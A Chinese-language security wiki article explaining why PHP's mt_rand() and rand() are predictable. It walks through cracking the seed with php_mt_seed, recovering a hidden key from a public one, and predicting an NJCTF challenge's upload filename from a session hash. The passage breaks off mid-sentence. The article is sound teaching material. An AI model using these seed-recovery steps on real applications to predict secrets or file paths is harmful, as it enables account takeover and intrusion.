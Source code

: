 php mt\_rand函数的安全问题探讨
==============================

mt\_rand() 函数的安全性问题
---------------------------

    php -r 'echo getrandmax()."\n".mt_getrandmax()."\n"; echo (pow(2,31)-1)."\n";'

![](/Users/aresx/Documents/VulWiki/.resource/phpmt_rand函数的安全问题探讨/media/rId22.png)

在我的 linux 64 位系统中,rand() 和 mt\_rand()
产生的最大随机数都是2147483647, 正好是 2\^31-1 ,
也就是说随机播种的种子也是在这个范围中,0 -- 2147483647
的这个范围是允许我们进行爆破的. 但是用 php爆破比较慢

这里放一个爆破poc的d地址

php\_mt\_seed爆破程序 <https://github.com/ianxtianxt/php-mt_rand>

下面演示一下它的用法:

![](/Users/aresx/Documents/VulWiki/.resource/phpmt_rand函数的安全问题探讨/media/rId24.png)

在例子中,我没有自己播种种子,而是让php自动去播种一个种子并产生一个随机数,然后用
php\_mt\_seed
这个工具把产生的随机数作为参数,去爆破种子,最后的得到了四个结果.
经过验证,四个结果都是对的.都会产生这样的一个随机数.

但是还有一个疑问,就是 php manual 中说,自动播种种子是指:在每次调用
mt\_rand()函数之前都播种一次种子呢,还是多次调用
mt\_rand()函数之前,只播种一次种子呢,这对于我们能否猜到产生的随机数序列至关重要.

看下面的测试:

![](/Users/aresx/Documents/VulWiki/.resource/phpmt_rand函数的安全问题探讨/media/rId25.png)

在测试中,在没有进行手工播种的情况下产生两个连续的随机数,然后去爆破种子,得到了四个可能种子,经过测试发现其中一个种子产生的随机数序列和预期的相同,所以可以猜想在php中产生一系列的随机数时,只进行了一次播种!

那请考虑下面代码的安全性:

    <?php
    function wp_generate_password($length = 12, $special_chars = true) {
      $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
      if ( $special_chars )
      $chars .= '!@#$%^&*()';

      $password = '';
      for ( $i = 0; $i < $length; $i++ )
      $password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
      return $password;
    }
    $key = wp_generate_password(16, false);
    echo "[*] This is a key for public:".$key."\n";

    $private = wp_generate_password(10,false);
    echo "[*] Create a private key which you don't know:".$private."\n";
    ?>

我们是否可以根据公开的key,猜到 \$private 呢?

运行一次上面的代码:

    njctf$ php mtRand.php
    [*] This is a key for public:uS66FDD9LCR62UV3
    [*] Create a private key which you don\'t know:t3JSUHzYAv

下面演示破解过程,首先获得public key在每一位在字符串中的位置:

    <?php
    $str = "uS66FDD9LCR62UV3";
    $randStr = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";

    for($i=0;$i<strlen($str);$i++){
       $pos = strpos($randStr,$str[$i]);
       echo $pos." ".$pos." "."0 ".(strlen($randStr)-1)." ";
       //整理成方便 php_mt_seed 测试的格式
      //php_mt_seed VALUE_OR_MATCH_MIN [MATCH_MAX [RANGE_MIN RANGE_MAX]]
    }
    echo "\n";
    ?>

然后用 php\_mt\_seed 进行破解,这个需要的时间还是挺长的,几分钟左右.

![](/Users/aresx/Documents/VulWiki/.resource/phpmt_rand函数的安全问题探讨/media/rId26.png)

已经成功的破解了一个seed,下面看这个seed对不对:

    <?php
    function wp_generate_password($length = 12, $special_chars = true) {
      $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789';
      if ( $special_chars )
      $chars .= '!@#$%^&*()';

      $password = '';
      for ( $i = 0; $i < $length; $i++ )
      $password .= substr($chars, mt_rand(0, strlen($chars) - 1), 1);
      return $password;
    }
    mt_srand(4030923041); //手工添加了这个种子
    $key = wp_generate_password(16, false);
    echo "[*] This is a key for public:".$key."\n";
    $private = wp_generate_password(10,false);
    echo "[*] Create a private key which you don't know:".$private."\n";
    ?>

跟刚才的结果一模一样 :

![](/Users/aresx/Documents/VulWiki/.resource/phpmt_rand函数的安全问题探讨/media/rId27.png)

这样就说明了,我们只需要拿到public key,就可以预测到private key 的值了.

但是在有的一些环境中，public key可能在private
key之后产生，但是知道private key的位数 怎么预测private key呢？
强大的php\_mt\_seed\_4.0,支持一些统配的写法，把未知的都写成参数 0 0 0 0
就可以了php\_mt\_seed详细的使用说明。它就会跳过前面的mt\_rand()的一些输出，直接匹配后面的：

下面测试我们获得了private key，来猜测public key的情况。

    <?php
     # mtRand.php
    $str = "t3JSUHzYAv";
    $randStr = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";

    for($i=0;$i<strlen($str);$i++){
       $pos = strpos($randStr,$str[$i]);
       echo $pos." ".$pos." "."0 ".(strlen($randStr)-1)." ";
       //整理成方便 php_mt_seed 测试的格式
      //php_mt_seed VALUE_OR_MATCH_MIN [MATCH_MAX [RANGE_MIN RANGE_MAX]]
    }
    echo "\n";
    ?>

下面就开始破解：

    ➜  Desktop echo  $(python -c "print '0 '*64") $(php mtRand.php) | xargs   ~/script/php_mt_seed-4.0/php_mt_seed
    Pattern: SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP SKIP EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62 EXACT-FROM-62
    Version: 3.0.7 to 5.2.0
    Found 0, trying 0xfc000000 - 0xffffffff, speed 65.2 Mseeds/s
    Version: 5.2.1+
    Found 0, trying 0xf0000000 - 0xf1ffffff, speed 5.5 Mseeds/s
    seed = 0xf0430121 = 4030923041 (PHP 5.2.1 to 7.0.x; HHVM)
    Found 1, trying 0xfe000000 - 0xffffffff, speed 5.5 Mseeds/s
    Found 1

可以看到破解得到的seed和之前的一样。

接下来看一个 njctf中的一个例子,只贴部分关键代码:

    <?php
    function random_str($length = "32")
    {
        $set = array("a", "A", "b", "B", "c", "C", "d", "D", "e", "E", "f", "F",
            "g", "G", "h", "H", "i", "I", "j", "J", "k", "K", "l", "L",
            "m", "M", "n", "N", "o", "O", "p", "P", "q", "Q", "r", "R",
            "s", "S", "t", "T", "u", "U", "v", "V", "w", "W", "x", "X",
            "y", "Y", "z", "Z", "1", "2", "3", "4", "5", "6", "7", "8", "9");
        $str = '';
        for ($i = 1; $i <= $length; ++$i) {
            $ch = mt_rand(0, count($set) - 1);
            $str .= $set[$ch];
        }
        return $str;
    }
    session_start();

    $seed = rand(0,999999999);
    mt_srand($seed);
    $ss = mt_rand();
    $hash = md5(session_id() . $ss);
    setcookie('SESSI0N', $hash, time() + 3600);

    $filename = './uP1O4Ds/' . random_str() . '_' . $_FILES['file-upload-field']['name'];
    ?>

我们的目标是猜测出filename. 这里 \$seed 是
rand(0,999999999)生成的,我们不知道,但是\$hash = md5(session\_id() .
\$ss);我们却是知道的,在 cookie的SESSION中,当把cookie中的 PHPSESSID
设为空的时候,session\_id()就也是空了,通过结hash,就可以获得 mt\_rand()
产生的第一个随机数,然后用
php\_mt\_seed这工工具爆破种子,就可以直接算出文件名了.

rand() 函数的安全性问题 rand() 函数在产生随机数的时候没有调用
srand(),则产生的随机数是有规律可询的.
具体的说明请看这里<http://www.sjoerdlangkemper.nl/2016/02/11/cracking-php-rand/>
产生的随机数可以用下面这个公式预测 : state\[i\] = state\[i-3\] +
state\[i-31\] (一般预测值可能比实际值要差1) 写下面测试代码,验证一下:

    <?php
    $randStr = array();
    for($i=0;$i<50;$i++){  //先产生 32个随机数
        $randStr[$i]=rand(0,30);
        if($i>=31) {
            echo  "$randStr[$i]=(".$randStr[$i-31]."+".$randStr[$i-3].") mod 31"."\n";
        }
    }
    ?>

看一下结果:

![](/Users/aresx/Documents/VulWiki/.resource/phpmt_rand函数的安全问题探讨/media/rId29.png)

发现预测的值,基本都是对的,这样就可以根据之前生成的随机数,预
